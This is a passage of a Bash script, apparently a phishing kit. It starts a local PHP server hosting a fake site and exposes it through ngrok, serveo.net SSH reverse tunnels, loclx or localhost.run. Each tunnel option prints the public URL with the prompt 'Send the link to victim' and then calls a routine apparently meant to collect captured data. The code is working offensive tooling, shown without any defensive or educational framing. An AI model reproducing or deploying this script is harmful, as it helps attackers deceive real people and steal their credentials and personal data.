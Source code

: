 "\e[0m\n" read -p $' \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Select a Port Forwarding option: \e[0m\e[1;96m\en' tunnel_menu tunnel_menu="${tunnel_menu:-${def_tunnel_menu}}" if [[ $tunnel_menu == 1 || $tunnel_menu == 01 ]]; then start_localhost elif [[ $tunnel_menu == 2 || $tunnel_menu == 02 ]]; then start_ngrok elif [[ $tunnel_menu == 3 || $tunnel_menu == 03 ]]; then start_serveo elif [[ $tunnel_menu == 4 || $tunnel_menu == 04 ]]; then start_loclx elif [[ $tunnel_menu == 5 || $tunnel_menu == 05 ]]; then start_localhostrun else printf "\n\n \e[1;91m[\e[0m\e[1;97m!\e[0m\e[1;91m]\e[0m\e[1;93m Invalid option \e[1;91m[\e[0m\e[1;97m!\e[0m\e[1;91m]\e[0m\n" sleep 1 banner menu fi } start_localhost() { printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Initializing...\e[0m\e[1;92m( \e[0m\e[1;96mhttp://127.0.0.1:5555 \e[0m\e[1;92m)\e[0m\n" cd .htr/www && php -S 127.0.0.1:5555 > /dev/null 2>&1 & sleep 2 smallbanner printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Successfully Hosted at :\e[0m\e[1;93m http://127.0.0.1:5555\e[0m\n" datafound } start_ngrok() { printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Initializing...\e[0m\e[1;91m ( \e[0m\e[1;96mhttp://127.0.0.1:5555\e[0m\e[1;91m )\e[0m\n" sleep 1 printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Launching Ngrok ...\e[0m\n" cd .htr/www && php -S 127.0.0.1:5555 > /dev/null 2>&1 & sleep 2 ./.htr/ngrok http 127.0.0.1:5555 > /dev/null 2>&1 & sleep 7 ngrok_link=$(curl -s -N http://127.0.0.1:4040/api/tunnels | grep -o "https://[-0-9a-z]*\.ngrok.io") smallbanner printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Send the link to victim :\e[0m\e[1;93m %s \n" $ngrok_link datafound } start_serveo() { serveo_default_choose_sub="Y" serveo_default_sub="$website$RANDOM" serveo_def_port="5555" printf "\e[0m\n" printf ' \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Select a Port \e[0m\e[1;91m( \e[0m\e[1;92mDefault:\e[0m\e[1;96m %s \e[0m\e[1;91m )\e[0m\e[1;92m : \e[0m\e[1;93m' $serveo_def_port read serveo_port serveo_port="${serveo_port:-${serveo_def_port}}" sleep 1 printf "\e[0m\n" printf ' \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Generate Custom Link ? \e[0m\e[1;91m[\e[0m\e[1;92mY\e[0m\e[1;91m/\e[0m\e[1;92mn\e[0m\e[1;91m] : \e[0m\e[1;93m' read serveo_choose_sub serveo_choose_sub="${serveo_choose_sub:-${serveo_default_choose_sub}}" if [[ $serveo_choose_sub == "Y" || $serveo_choose_sub == "y" || $serveo_choose_sub == "Yes" || $serveo_choose_sub == "yes" ]]; then serveo_custom_subdomain=true sleep 1 printf "\e[0m\n" printf ' \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Input CUSTOM Subdomain : \e[0m\e[1;91m( \e[0m\e[1;92mDefault:\e[0m\e[1;93m %s \e[0m\e[1;91m)\e[0m\e[1;92m: \e[0m\e[1;93m' $serveo_default_sub read serveo_subdomain serveo_subdomain="${serveo_subdomain:-${serveo_default_sub}}" sleep 1 fi printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Initializing...\e[0m\e[1;91m ( \e[0m\e[1;96mhttp://127.0.0.1:$serveo_port\e[0m\e[1;91m )\e[0m\n" sleep 1 printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Launching Serveo ...\e[0m\n" cd .htr/www && php -S 127.0.0.1:$serveo_port > /dev/null 2>&1 & if [[ $serveo_custom_subdomain == true ]]; then $(which sh) -c 'ssh -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -o ServerAliveCountMax=60 -R %s:80:localhost:%s serveo.net > .nexlink 2> /dev/null &' $serveo_subdomain,$serveo_port sleep 7 else $(which sh) -c 'ssh -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -R 80:localhost:%s serveo.net > .nexlink 2> /dev/null &' $serveo_port sleep 7 fi serveo_link=$(grep -o '.\{0,0\}http.\{0,100\}' .nexlink) smallbanner printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Send the link to victim :\e[0m\e[1;93m %s \n" $serveo_link datafound } start_loclx() { loclx_default_choose_sub="Y" loclx_default_sub="$website$RANDOM" printf "\e[0m\n" printf ' \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Generate Custom Link ? \e[0m\e[1;91m[\e[0m\e[1;92mY\e[0m\e[1;91m/\e[0m\e[1;92mn\e[0m\e[1;91m] : \e[0m\e[1;93m' read loclx_choose_sub loclx_choose_sub="${loclx_choose_sub:-${loclx_default_choose_sub}}" if [[ $loclx_choose_sub == "Y" || $loclx_choose_sub == "y" || $loclx_choose_sub == "Yes" || $loclx_choose_sub == "yes" ]]; then loclx_custom_subdomain=true sleep 1 printf "\e[0m\n" printf ' \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Input CUSTOM Subdomain : \e[0m\e[1;91m( \e[0m\e[1;92mDefault:\e[0m\e[1;93m %s \e[0m\e[1;91m )\e[0m\e[1;92m: \e[0m\e[1;93m' $loclx_default_sub read loclx_subdomain loclx_subdomain="${loclx_subdomain:-${loclx_default_sub}}" sleep 1 fi printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Initializing...\e[0m\e[1;91m ( \e[0m\e[1;96mhttp://127.0.0.1:4142\e[0m\e[1;91m )\e[0m\n" sleep 1 printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Launching LocalTunnel ...\e[0m\n" cd .htr/www && php -S 127.0.0.1:4142 > /dev/null 2>&1 & if [[ $loclx_custom_subdomain == true ]]; then ./.htr/loclx tunnel http --to :4142 --subdomain $loclx_subdomain > .nexlink 2> /dev/null & sleep 8 else ./.htr/loclx tunnel http --to :4142 > .nexlink 2> /dev/null & sleep 8 fi loclx_link=$(grep -o 'https://[0-9a-z]*\.loclx.io ' .nexlink) smallbanner printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Send the link to victim :\e[0m\e[1;93m %s \n" $loclx_link datafound } start_localhostrun() { printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Launching LocalHostRun ...\e[0m\n" cd .htr/www && php -S 127.0.0.1:4545 > /dev/null 2>&1 & printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Initializing...\e[0m\e[1;91m ( \e[0m\e[1;96mhttp://127.0.0.1:4545\e[0m\e[1;91m )\e[0m\n" sleep 1 printf "\e[0m\n" printf "